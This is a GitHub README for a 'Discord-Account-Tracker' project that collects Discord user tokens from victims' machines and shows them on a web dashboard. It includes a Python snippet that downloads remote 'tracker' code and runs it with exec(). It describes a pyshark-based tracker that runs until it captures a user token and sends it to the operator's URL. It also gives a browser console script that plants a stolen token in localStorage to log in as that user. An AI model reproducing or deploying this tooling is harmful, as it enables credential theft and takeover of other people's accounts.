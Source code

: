 # Discord-Account-Tracker

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Postgres](https://img.shields.io/badge/postgres-%23316192.svg?style=for-the-badge&logo=postgresql&logoColor=white)
![HTML5](https://img.shields.io/badge/html5-%23E34F26.svg?style=for-the-badge&logo=html5&logoColor=white)
![CSS3](https://img.shields.io/badge/css3-%231572B6.svg?style=for-the-badge&logo=css3&logoColor=white)
![JavaScript](https://img.shields.io/badge/javascript-%23323330.svg?style=for-the-badge&logo=javascript&logoColor=%23F7DF1E)
![Docker](https://img.shields.io/badge/docker-%230db7ed.svg?style=for-the-badge&logo=docker&logoColor=white)
![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)
![Vercel](https://img.shields.io/badge/vercel-%23000000.svg?style=for-the-badge&logo=vercel&logoColor=white)

---

## QuickStart

1. Create a environment variable file .

`/flask/app/.env`
```
TOKEN = your token
CLIENT_ID = your client id
CLIENT_SECRET = your client secret
REDIRECT_URI = http://localhost:8080/oauth/callback
ADMIN_ID = your discord account id
```

2. Enter the commands in the shell.

Run with python
```shell=
pip install -r requirements.txt
python main.py
```

Run with docker
```shell=
docker compose up
```

> You can also running on [Vercel](https://vercel.com/).\
> If running on vercel, set `/flask` as the root directory.

---

## Overview
`/` The home page with user list, it gets user data from tracker.
 ![home](https://imgur.com/89k6VHQ.png) 
 - Click the script button to copy the javascript code to your clipboard.
 - Click the token button to copy the user token to your clipboard.
 - Clink the button in the upper right corner to redirect to `discord.com`

Enter `discord.com` and press `F12` or `Ctrl+Shift+I` to open the console.

Paste the scripts in the console (you can copy it in the home page).
```javascript=
function login(token) {setInterval(() => {document.body.appendChild(document.createElement`iframe`).contentWindow.localStorage.token = `'${token}'`;}, 50);setTimeout(() => { location.reload(); }, 2500);}
```
Than you can login with this function.
```javascript=
login("token")
``` 

> [!WARNING]
> **Login with user token may be in violation of Discord Terms of Service**

---

`/login`, `/logout` The discord account login system.

`/code` The tracker code.

Can be used in the following situations
```python=
import json
import request
URL = "your url"

code = json.loads(request.get(f"{URL}/code").text)
exec(code)
```

`/code/download` Download the tracker code.

you can use the commands after downloading.
```shell=
pip install request
pip install pyshark
python shell.py
```

The tracker will running until get the discord user token and return to the URL, you can ckeck the data in the home page.

> [!WARNING]
> **The tracker may be in violation of Discord Terms of Service**

## Support
<table>
    <tr>
        <th>Platform</th>
        <th>Website Supported</th>
        <th>Tracker Supported</th>
    </tr>
    <tr>
        <th>Windows</th>
        <th style="text-align: center">✅</th>
        <th style="text-align: center">✅</th>
    </tr>
    <tr>
        <th>Linux</th>
        <th style="text-align: center">✅</th>
        <th style="text-align: center">❌</th>
    </tr>
    <tr>
        <th>Mac</th>
        <th style="text-align: center">✅</th>
        <th style="text-align: center">❌</th>
    </tr>
</table>